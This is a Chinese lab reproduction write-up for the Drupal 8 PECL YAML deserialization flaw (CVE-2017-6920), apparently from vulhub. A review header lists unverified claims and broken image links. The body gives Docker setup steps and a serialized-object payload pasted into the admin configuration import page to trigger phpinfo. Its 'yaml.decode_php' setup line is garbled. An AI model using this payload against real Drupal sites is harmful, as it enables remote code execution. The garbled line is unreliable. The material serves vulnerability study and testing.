

## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：Test8.3.0 success/8.0.0 failure; admin import; YAML extension decode_php; branch ranges7&lt;7.56 and8&lt;8.3.4 asserted

- **证据待核（1）**：Shares full flawed setup with113: yaml.decode_php =1=1 and relative sources.list。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **结论使用边界（2）**：Affected list omits tested8.3.0 despite broader description; verify7.x attribution to this specific YAML issue。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **证据待核（3）**：Important unsuccessful8.0.0 observation absent113; preserve as environment evidence。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **代码与转录边界（4）**：Image links malformed and Pandoc residue。相应原代码作为存在此问题的历史样本保留，不能直接当作可运行、成功复现的 PoC；缺失内容需回原稿核对，不据此补造可执行攻击链。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

（CVE-2017-6920）Drupal Core 8 PECL YAML 反序列化任意代码执行漏洞
=================================================================

一、漏洞简介
------------

Drupal是Drupal社区所维护的一套用PHP语言开发的免费、开源的内容管理系统。Drupal7.56之前的7.x版本和8.3.4之前的8.x版本中存在远程代码执行漏洞。远程攻击者可利用该漏洞在受影响应用程序上下文中执行任意代码或造成拒绝服务。

二、漏洞影响
------------

Drupal Drupal 8.3.3 Drupal Drupal 8.3.2 Drupal Drupal 8.3.1 Drupal
Drupal 8.2.8 Drupal Drupal 8.2.7 Drupal Drupal 8.2.3 Drupal Drupal 8.2.2

三、复现过程
------------

### 漏洞环境

执行如下命令启动 drupal 8.3.0 的环境：

    docker-compose up -d

环境启动后，访问 `http://your-ip:8080/`
将会看到drupal的安装页面，一路默认配置下一步安装。因为没有mysql环境，所以安装的时候可以选择sqlite数据库。

### 漏洞复现

-   先安装 `yaml` 扩展

```{=html}
<!-- -->
```
    # 换镜像源，默认带vim编辑器，所以用cat换源，可以换成自己喜欢的源
    cat > sources.list << EOF
    deb http://mirrors.163.com/debian/ jessie main non-free contrib
    deb http://mirrors.163.com/debian/ jessie-updates main non-free contrib
    deb http://mirrors.163.com/debian/ jessie-backports main non-free contrib
    deb-src http://mirrors.163.com/debian/ jessie main non-free contrib
    deb-src http://mirrors.163.com/debian/ jessie-updates main non-free contrib
    deb-src http://mirrors.163.com/debian/ jessie-backports main non-free contrib
    deb http://mirrors.163.com/debian-security/ jessie/updates main non-free contrib
    deb-src http://mirrors.163.com/debian-security/ jessie/updates main non-free contrib
    EOF
    # 安装依赖
    apt update
    apt-get -y install gcc make autoconf libc-dev pkg-config
    apt-get -y install libyaml-dev
    # 安装yaml扩展
    pecl install yaml
    docker-php-ext-enable yaml.so
    # 启用 yaml.decode_php 否则无法复现成功
    echo 'yaml.decode_php = 1 = 1'>>/usr/local/etc/php/conf.d/docker-php-ext-yaml.ini
    # 退出容器
    exit
    # 重启容器，CONTAINER换成自己的容器ID
    docker restart CONTAINER

-   1.登录一个管理员账号

-   2.访问
    `http://127.0.0.1:8080/admin/config/development/configuration/single/import`

-   3.如下图所示，`Configuration type` 选择
    `Simple configuration`，`Configuration name`
    任意填写，`Paste your configuration here` 中填写PoC如下：

```{=html}
<!-- -->
```
    !php/object "O:24:\"GuzzleHttp\\Psr7\\FnStream\":2:{s:33:\"\0GuzzleHttp\\Psr7\\FnStream\0methods\";a:1:{s:5:\"close\";s:7:\"phpinfo\";}s:9:\"_fn_close\";s:7:\"phpinfo\";}"

DrupalCore8PECLYAML反序列化任意代码执行漏洞/media/rId26.png)

-   4.点击 `Import` 后可以看到漏洞触发成功，弹出 `phpinfo` 页面

DrupalCore8PECLYAML反序列化任意代码执行漏洞/media/rId27.png)

-   Tips：

    -   虽然官方 CPE 信息显示从 `8.0.0` 开始就有该漏洞，但是在
        `drupal:8.0.0` 容器内并没有复现成功，相同操作在 `drupal:8.3.0`
        则可以复现成功，故基础镜像选择`drupal:8.3.0`

参考链接
--------

> https://vulhub.org/\#/environments/drupal/CVE-2017-6920/
